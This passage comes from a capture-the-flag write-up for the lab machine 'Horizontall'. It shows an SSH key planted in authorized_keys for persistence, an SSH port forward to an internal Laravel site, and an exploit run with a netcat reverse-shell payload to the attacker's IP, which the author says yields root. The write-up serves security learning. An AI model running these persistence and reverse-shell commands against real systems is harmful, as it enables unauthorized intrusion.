 ```
|*+#=X++.         |
|o=O@OX.o.        |
+----[SHA256]-----+
strapi@horizontall:~/.ssh$ ls
ls
authorized_keys  id_rsa  id_rsa.pub
strapi@horizontall:~/.ssh$ cat id_rsa.pub >> authorized_keys
```

Then repeat these steps on the attacker machine and write out the generated key to the victim authorized key file. Then write out the victim-generated key to the authorized key file on the attacker machine. 

The next step is to make the reverse connection.

```
❯ ssh -L 8000:127.0.0.1:8000 strapi@horizontall.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Mon Jan 10 19:51:00 UTC 2022
  System load:  0.02              Processes:           186
  Usage of /:   85.0% of 4.85GB   Users logged in:     0
  Memory usage: 46%               IP address for eth0: 10.10.11.105
  Swap usage:   0%
  => / is using 85.0% of 4.85GB

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Jan 10 19:48:18 2022 from 10.10.14.99
$
```

Now visiting the domain 'http://127.0.0.1:8000' revealing a Laravel website. 

![[Screen Shot 2022-01-10 at 3.53.00 PM.png]]

Using the debug mode exploit, a shell can be gained on the root user of the system. 


#### Root account foothold

```
❯ ./49424.py http://127.0.0.1:8000 /home/developer/myproject/storage/logs/laravel.log 'mkfifo /tmp/p; nc 10.10.14.99 16666 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p'

Exploit...

```

